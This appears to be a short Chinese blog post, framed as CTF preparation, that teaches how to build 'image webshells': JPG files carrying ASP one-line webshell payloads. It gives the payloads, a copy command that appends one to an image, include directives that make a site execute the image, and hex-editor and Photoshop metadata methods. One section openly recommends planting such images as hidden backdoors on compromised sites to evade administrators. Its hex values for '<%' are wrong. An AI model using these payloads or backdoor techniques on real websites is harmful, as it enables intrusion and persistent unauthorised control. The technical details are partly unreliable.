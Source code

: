 # 制作图片马

[2018-11-20]()

## [](#前言 "前言")前言

打CTF遇到需要图片马的题，现学一下如何制作图片马。  

## [](#0x01-Copy命令 "0x01 Copy命令")0x01 Copy命令

先准备两个东西：

* 1.asp `<%eval request("value") %>`
* 1.jpg 随便一个图片

打开cmd，输入命令：

```
copy 1.jpg/b+1.asp/a 2.jpg
```

![](1.png)

然后对比`1.png`和`2.png`的源码

* 1.png  
  ![](3.png)

* 2.png  
  ![](2.png)

且`2.png`可以正常打开，没有影响

把以下代码放入目标网站，即可按asp执行。

```
<% #include files=”2.jpg”%>
```

* * *

## [](#0x02-Uedit32 "0x02 Uedit32")0x02 Uedit32

我们通常在得到webshell之后都想给自己留个后门，等下次或以后有用得到的时候再进来看看。但如果直接加入一句话木马`<%execute request("value")%>`到asp文件中时，在该页面上就会出错

然后换个思路，使用插入一句话木马的图片做我们的后门。而且我们如果有足够的权限的话（网站中的文件可写），就直接把网站原有的图片变成后门，然后在那个asp文件中加入调用图片后门的代码：  
<!--#include file="图片后门地址"-->  
这样就没有上面的“类型不匹配: ‘execute’”错误了，而且也更好的隐藏了我们的后门。

当我们直接将一句话木马的asp文件改成jpg或gif文件的时候，这个图片文件是打不开的，很容易被管理员发现。换一种方法：制作可以显示图片内容的图片格式后门。

1.  准备工作：

    * 1.jpg\(随便一张图片\)
    * 一句话木马：`<%execute request("value")%>`
    * Script标签： `<script runat=server language=javascript>内容</script>`
    * 调用后门代码：`<!-- #include file="图片地址"-->`
    * 工具：UltraEdit

2.  开始制作：  
    使用UltraEdit打开1.jpg文件，找到`<%`和`%>` 其中`<%`的十六进制代码是`3E 25`,`%>`的十六进制代码是`25 3E`，然后把25改成00

![](1.jpg)

然后将script标签代码  
\&lt;\%execute request\(“value”\)\%\&gt;  
转换为十六进制，粘贴到1.jpg的十六进制代码的最下面。必须粘贴到最下面，否则就把图片破坏了。  
最后保存退出，图片后门就做成了。

注：如果网站的asp网页可以被写入，那将`<!--#include file="1.jpg"-->`直接插入到网页中，这样这个网页的url就成了使用菜刀连接的后门地址了；

## [](#0x03-PS插入 "0x03 PS插入")0x03 PS插入

1.  用PS打开一张图片
2.  点击文件->文件简介
3.  然后插入需要的木马代码
4.  然后保存即可
